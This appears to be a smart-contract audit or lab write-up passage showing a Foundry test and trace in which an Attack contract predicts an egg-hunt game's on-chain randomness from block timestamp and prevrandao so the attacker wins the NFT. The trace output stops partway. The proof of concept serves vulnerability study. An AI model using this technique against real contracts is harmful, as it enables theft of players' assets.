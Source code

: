 #### Test Case

```solidity
function testPredictRandomNumber() public {
    game.startGame(10000);
    vm.startPrank(bob);
    Attack attack = new Attack();
    for(uint256 i = 0; i < 20; i++){
        vm.warp(i);
        vm.roll(i);
        bool flag = attack.simulate(block.timestamp, block.prevrandao, bob, 0, 20);
        if (flag) {
            break;
        }
    }
    game.searchForEgg();
    vm.stopPrank();
    assertEq(nft.ownerOf(1), bob);
}
```

#### Output

```bash
[PASS] testPredictRandomNumber() (gas: 449860)
Traces:
  [449860] EggGameTest::testPredictRandomNumber()
    ├─ [54131] EggHuntGame::startGame(10000 [1e4])
    │   ├─ emit GameStarted(startTime: 1, endTime: 10001 [1e4])
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(SHA-256: [0x0000000000000000000000000000000000000002])
    │   └─ ← [Return] 
    ├─ [165806] → new Attack@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← [Return] 828 bytes of code
    ├─ [0] VM::warp(0)
    │   └─ ← [Return] 
    ├─ [0] VM::roll(0)
    │   └─ ← [Return] 
    ├─ [2434] Attack::simulate(0, 0, SHA-256: [0x0000000000000000000000000000000000000002], 0, 20) [staticcall]
    │   └─ ← [Return] false
    ├─ [0] VM::warp(1)
    │   └─ ← [Return] 
    ├─ [0] VM::roll(1)
    │   └─ ← [Return] 
    ├─ [2434] Attack::simulate(1, 0, SHA-256: [0x0000000000000000000000000000000000000002], 0, 20) [staticcall]
    │   └─ ← [Return] false
    ├─ [0] VM::warp(2)
    │   └─ ← [Return] 
    ├─ [0] VM::roll(2)
    │   └─ ← [Return] 
    ├─ [2434] Attack::simulate(2, 0, SHA-256: [0x0000000000000000000000000000000000000002], 0, 20) [staticcall]
    │   └─ ← [Return] false
    ├─ [0] VM::warp(3)
    │   └─ ← [Return] 
    ├─ [0] VM::roll(3)
    │   └─ ← [Return] 
    ├─ [2434] Attack::simulate(3, 0, SHA-256: [0x0000000000000000000000000000000000000002], 0, 20) [staticcall]
    │   └─ ← [Return] false
    ├─ [0] VM::warp(4)
    │   └─ ← [Return] 
    ├─ [0] VM::roll(4)
```